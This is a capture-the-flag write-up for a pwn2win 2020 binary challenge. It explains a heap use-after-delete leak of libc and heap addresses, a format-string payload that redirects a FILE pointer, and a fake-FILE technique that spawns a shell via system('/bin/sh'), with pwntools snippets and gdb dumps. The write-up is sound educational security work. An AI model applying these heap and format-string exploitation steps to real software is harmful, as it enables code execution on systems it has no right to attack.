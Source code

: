 # At Your Command

This was a pwnable challenge from pwn2win 2020.

Checksec reveals that the binary has all protections enabled:
```bash
$ checksec command
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Additionally, `libc 2.27` was provided together with the challenge binary.

When running the binary, the classic CTF style menu is shown.

```bash
$ ./command
Welcome to the command system
=============================
Your name: myname
Welcome myname

Choose an option:
1. Include command
2. Review command
3. Delete command
4. List commands
5. Send commands
```

* `Include`: Add a new chunk of memory consisting of an integer `priority` and reading 0x170 chars into the 0x180 large char buffer `command`
* `Review`: Show a command at the provided index
* `Delete`: Delete the command at the provided index  
* `List`: Show all registered commands
* `Send`: Opens a file on the filesystem and write all commands to disk, then exits the program.

The struct that is handeled by all those commands looks like this:

```c
struct __attribute__((aligned(8))) command_t
{
  __int64 priority[1];
  char command[0x180];
};
```

There are two bugs in the program. First in the delte function, only the first 8 bytes (`priority`) of the `command_t` struct are set to 0:

```c
int __fastcall delete(command_t **mem)
{
  command_t *index; // rax
  int idx; // [rsp+1Ch] [rbp-4h]

  printf("Command index: ");
  LODWORD(index) = memset16_fgets16_atoll();
  idx = (int)index;
  if ( (int)index < 0 || (int)index > 9 )
    return (int)index;
  index = mem[(int)index];
  if ( !index )
    return (int)index;
  free(mem[idx]);
  mem[idx] = 0LL;
  LODWORD(index) = puts("The command has been successfully deleted");
  return (int)index;
}
```

This means that all data in the `command` field persists. 

Recall how a free memory chunk looks like (not tcache, larger than fastbin):

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

So, if we can free a chunk into the unsorted bin, it will contain a `bk` pointer at the start of the `command` field when it is allocated again.
This pointer will point into the `main_arena`, which is in `libc`.

First we allocate 10 chunks. Then we free them in reverse order, so they do not coalesce with the wilderness. The first 7 chunks to into the `0x190` tcache, the last 3 will be merged together to a 0x4b0 chunk in the unsorted bin. This last chunk will contain the `fd` and `bk` pointers into `libc`.

We now empty the tcache by allocating 7 chunks. The next allocation will now split the 0x4b0 chunk and take `0x190` to the `command_t` struct. By providing only 1 char to the `command` field, only the LSB of the `bk` pointer will be overwritten. Using `review`, the `bk` pointer can be leaked and the `libc` address can be determined from there. Note, thet by overwriting the LSB with a constant value, the offset from `bk` to `libc` base will still always remain the same.

```python
# fill tcache and prepare large chunk for libc and heap leak
for i in range(10):
    include(i, "A"*8)
for i in range(10):
    delete(9-i)

# fill tcache
for i in range(7):
    include(i, "B")

# leak libc address from arena pointers (1 byte overwrite)
include(7, "C")
leak = review(7, True)
libc.address = leak - 0x3ecf43 # offset to base of libc
log.success("Libc base: " + hex(libc.address))
```

For this challenge, we do not necessarily need a heap leak. We did it anyway, as having more information never hurts.
Remember that we allocated and freed 10 chunks and not only 8, so that we would have a large chunk (0x4b0) in the unsorted bin. When the 8th allocation happens, malloc will see that there is no chunk of size 0x190 in `tcache`. Then it will notice that it has no chunk of that exact size in the unsorted bin. Thus, it will move the `0x4b0` sized chunk into the large bin. When this happens, it will write `fd_nextsize` and `bk_nextsize` into the 3rd and 4th address of the chunk. As currently there is only one large bin in use, they both will point the the chunk itself, meaning they contain heap pointers. Now, malloc will split the `0x4b0` chunk and take `0x190` from it to satisfy our request.

This chunks looks as follows:
```bash
gef>  x/32gx 0x55891fa40250
0x55891fa40250:	0x0000000000000000	0x0000000000000191 # header
0x55891fa40260:	0x0000000000000000	0x00007f21289ac043 # 0 in priority field, bk ptr
0x55891fa40270:	0x000055891fa40250	0x000055891fa40250 # fd_nextsize, bk_nextsize -> heap ptrs
0x55891fa40280:	0x0000000000000000	0x0000000000000000
```

Thus, by providing a command of length 8, we can overwrite the bk pointer and leak the heap pointer:

```python
# free chunk again
delete(7)
# overwrite bk pointer so we can leak heap ptrs 
include(7, "D"*8)
heap = review(7)
log.success("Heap: " + hex(heap))
```

Now that we have a heap and libc leak, we want to get code execution. The `send` function has a format string vulnerability, when it uses `snprintf` to directly print the provided username of length 0xC. 

```c
 for ( i = 0; i <= 9; ++i ) //store all commands
  {
    if ( mem->priority[i] )
      fprintf(*stream, "%lld:%s\n", *(_QWORD *)mem->priority[i], mem->priority[i] + 8);
  }
  snprintf(&src, 0xCuLL, name); // vulnerable
  strcpy(&s, "Mr. ");
  strcat(&s, &src);
  printf("You command %s!\n", &s);
```


Also recall, that `send` opens a FILE, to dump the content of all commands. Our exploit strategy now is to create a fake FILE on the heap, in one of the `command_t` chunks and use the format string vulnerability to chanke the original FILE pointer to point to our faked FILE.
 
The stack looks like this before the `snprintf` call:
```bash
x/32gx $rsp
0x7ffe8e8748e0:	0x00007ffe8e874940	0x00007ffe8e874950
0x7ffe8e8748f0:	0x0000000a56b3f080	0x0000000000000000
0x7ffe8e874900:	0x0000000000000000	0x0000000000000000
0x7ffe8e874910:	0x0000000000000000	0x0000000000000000
0x7ffe8e874920:	0x00007ffe00000000	0xef9dae9836814800
0x7ffe8e874930:	0x00007ffe8e8749b0	0x000056195693e500
0x7ffe8e874940:	0x00005619586bf3f0	0x000000000000000c # FILE pointer, len name 0xc
0x7ffe8e874950:	0x00005619586bf710	0x00005619586bf8a0 # command_t ptrs
0x7ffe8e874960:	0x00005619586bfa30	0x00005619586bfbc0
0x7ffe8e874970:	0x00005619586bfd50	0x00005619586bfee0
0x7ffe8e874980:	0x00005619586c0070	0x00005619586bf260
```
The FILE ptr can be overwritten using `%4$hn`. Now we need to know what value to write there. The bottom 3 nibbles (half a byte) will always stay the same, but the next nibble will be affected by ASLR. We can now either bruteforce it with a 1/16 chance, or use some format string black magic. We specify `%*19$c%4$hn` as the payload.
`%*19$c` will read the value at `0x7ffe8e874958`, containing the pointer to the fake FILE, and create a padding (`*`) of that length, effectively writing that number into `0x7ffe8e874940` using `%4$n`. The offset 19 was discovered using GDB and trial and error. If someone knows why it's this exact offset, let me know!

After the snprintf, the stack looks like this. We notice, that the FILE pointer has been changed and now points to chunk1:

```bash
x/32gx $rsp
0x7ffe8e8748e0:	0x00007ffe8e874940	0x00007ffe8e874950
0x7ffe8e8748f0:	0x0000000a56b3f080	0x0000000000000000
0x7ffe8e874900:	0x2020202020202020	0x0000000000202020
0x7ffe8e874910:	0x0000000000000000	0x0000000000000000
0x7ffe8e874920:	0x00007ffe00000000	0xef9dae9836814800
0x7ffe8e874930:	0x00007ffe8e8749b0	0x000056195693e500
0x7ffe8e874940:	0x00005619586bf8a0	0x000000000000000c # modified FILE ptr, same as chunk1
0x7ffe8e874950:	0x00005619586bf710	0x00005619586bf8a0 # chunk0, chunk1
0x7ffe8e874960:	0x00005619586bfa30	0x00005619586bfbc0
0x7ffe8e874970:	0x00005619586bfd50	0x00005619586bfee0
0x7ffe8e874980:	0x00005619586c0070	0x00005619586bf260
```

We now control the FILE through chunk 1. In libc versions up to 2.23 it was possible to create a fake vtable to execute arbitrary commands. In libc 2.27 this is no longer possible.
There exists an article that explains how creating a fake `vtable` that will call `_IO_str_overflow` it is possible to get code execution: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/. I highly recommend you to thoroughly read that article, it is very educational. 
In summary, it describes how to change `(char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);` to `fp->system("/bin/sh")`. 

Thus, we prepare the fake FILE in such a way, that `system("/bin/sh")` will be executed, once the FILE is closed.

We can now run the exploit, which will give us a shell, allowing us to read the flag: `CTF-BR{_wh4t_4_fUn_xpl_ch41n_mY_c0mm4nd3r_}`!